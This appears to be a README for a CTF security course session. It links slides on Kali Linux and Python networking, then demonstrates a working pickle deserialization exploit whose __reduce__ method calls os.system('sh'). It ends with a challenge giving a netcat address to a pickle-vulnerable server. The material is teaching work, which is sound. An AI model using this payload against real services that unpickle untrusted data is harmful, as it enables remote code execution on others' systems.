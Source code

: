 # Slides
 1. [Linux_and_SA](Python_Linux_n_SystemAdmin/Linux_and_SA.pptx)： **Kali Linux**, **Bash Shells**
 2. [Python](Python_Linux_n_SystemAdmin/Python.pptx)：**Socket**, **Struct**, **Pwntools** modules

# Today's Vulnerable
pickle 是個可以把class serialized 和deserialized 的module，以下程式能叫出shell！
 ```python
  import pickle
  import os
  class Exploit(object):
    def __reduce__(self):
      comm = "sh"
      return (os.system, (comm,))
a = pickle.dumps(Exploit()) # searlized to String
b = pickle.loads(a) # desearlized from String
```
## Remark
 * deserialized回來時，需要告訴python 要怎麼還原回來，而這個還原方法就是在 ```__reduce__(self)```裡指定。
=> 也就是，反serialized時會call ```__reduce__(self)```
 *  ```__reduce__(self)``` 回傳的格式：[desearlized_function][argument to desearlized_function]
 => ```(os.system, (comm,))``` 會desearlized成 ```os.system("sh")```，***calling shell***!

# Get the Flag
1. [Pickle](Pickle)
 * server： ```nc 140.113.194.85 49167```
 * [server code](Pickle/spam.py)
 * Hint: pickle vulnerable

